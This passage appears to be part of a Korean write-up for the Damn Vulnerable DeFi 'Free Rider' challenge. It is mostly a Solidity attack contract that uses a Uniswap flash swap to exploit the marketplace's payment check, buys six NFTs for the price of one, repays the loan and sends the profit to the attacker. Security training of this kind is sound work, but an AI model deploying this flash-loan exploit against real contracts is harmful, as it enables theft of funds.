 로 uniswapV2Call을 받아오기 위함이다.

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "../DamnValuableNFT.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";

interface IFreeRiderNFTMarketplace{
        function buyMany(uint256[] calldata tokenIds) external payable;
}
interface IUniswapPair{
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
}

interface IUniswapV2Callee {
    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external;
}
interface IWETH {
    function transfer(address recipient, uint256 amount) external returns (bool);
    function deposit() external payable;
    function withdraw(uint256 amount) external;
}

contract attackFreeRider is IUniswapV2Callee,IERC721Receiver{

    DamnValuableNFT public nft;
    IUniswapPair UniswapPair;
    address buyer;
    IFreeRiderNFTMarketplace market;
    IWETH weth;
    address attacker;
    constructor(address _nft, address _pair, address _buyer,address _market,address _weth){
        nft=DamnValuableNFT(_nft);
        UniswapPair=IUniswapPair(_pair);
        buyer=_buyer;
        market=IFreeRiderNFTMarketplace(_market);
        weth=IWETH(_weth);
        attacker=msg.sender;
    }
    function flash_swap()public{
        UniswapPair.swap(15 ether,0,address(this),hex"00"); // docs에서 data가 필요하지 않으면 길이 1 짜리 junk 바이트를 넣으면 알아서 무시된다고 써져있음.
    }
    function uniswapV2Call(address , uint , uint , bytes calldata) external override{
        uint256[] memory nftids = new uint256[](6);
        for(uint256 i=0;i<6;i++){
            nftids[i]=i;
        }
        weth.withdraw(15 ether);

        market.buyMany{value:15 ether}(nftids);

        for(uint i=0;i<6;i++){
            nft.safeTransferFrom(address(this), buyer, nftids[i]);
        }

        uint256 fee = 15 ether * 0.0031;
        weth.deposit{value: 15 ether + fee}();
        weth.transfer(msg.sender,15 ether + fee);
        payable(attacker).transfer(address(this).balance);
    }
```